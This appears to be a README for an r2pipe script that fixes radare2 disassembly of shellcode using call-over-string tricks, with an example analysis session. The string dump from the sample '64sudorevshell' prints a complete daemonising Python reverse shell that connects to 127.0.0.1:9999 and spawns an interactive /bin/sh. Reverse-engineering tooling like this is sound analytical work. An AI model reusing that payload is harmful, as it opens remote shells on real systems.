


# call_trick_r2pipe

Are you using radare for reversing or debugging a shellcode/malware with a lot of call tricks like these:

```
call @f
db "string1",0
@f:
more code
call @g:
db "string2",0
@g:
more code
```

Try this script to fix disasm:
 ```
import r2pipe
import json

r2 = r2pipe.open()
r2.cmd('aaaa')
print(r2.cmd("izz"))
izz = json.loads(r2.cmd("izzj"))
for e in izz:
        if e['type'] == "ascii" and e['section'] == ".text":
                csa = "Csa " + str(e['size']) + " @" + str(e['vaddr'])
                print(csa)
                r2.cmd(csa)
```

Just use this script (#!pipe python3 poc.py) inside your r2 session:
```
dreg@fr33project:~# r2 64sudorevshell
[0x00401000]> #!pipe python3 poc.py

[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[Strings]
nth paddr      vaddr      len size section   type  string
---------------------------------------------------------
0   0x0000105a 0x0040105a 524 525  .text     ascii exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect((str(0x7f000001),9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")
1   0x00001274 0x00401274 11  12   .text     ascii /bin/python
2   0x000012b7 0x004012b7 9   10   .text     ascii /bin/sudo
3   0x00001479 0x00000001 18  19   .strtab   ascii 64sudorevshell.asm
4   0x0000148c 0x00000014 6   7    .strtab   ascii parent
5   0x00001493 0x0000001b 5   6    .strtab   ascii child
6   0x00001499 0x00000021 4   5    .strtab   ascii arg3
7   0x000014a2 0x0000002a 4   5    .strtab   ascii arg2
8   0x000014ab 0x00000033 4   5    .strtab   ascii arg1
9   0x000014b0 0x00000038 4   5    .strtab   ascii drgs
10  0x000014b9 0x00000041 6   7    .strtab   ascii end_sc
11  0x000014c0 0x00000048 11  12   .strtab   ascii __bss_start
12  0x000014cc 0x00000054 6   7    .strtab   ascii _edata
13  0x000014d3 0x0000005b 4   5    .strtab   ascii _end
14  0x000014d9 0x00000001 7   8    .shstrtab ascii .symtab
15  0x000014e1 0x00000009 7   8    .shstrtab ascii .strtab
16  0x000014e9 0x00000011 9   10   .shstrtab ascii .shstrtab
17  0x000014f3 0x0000001b 18  19   .shstrtab ascii .note.gnu.property
18  0x00001506 0x0000002e 5   6    .shstrtab ascii .text


Csa 525 @4198490
Csa 12 @4199028
Csa 10 @4199095
[0x00401000]>
```

# Before



# After



Greetz to Maijin for hints in #radare channel
           


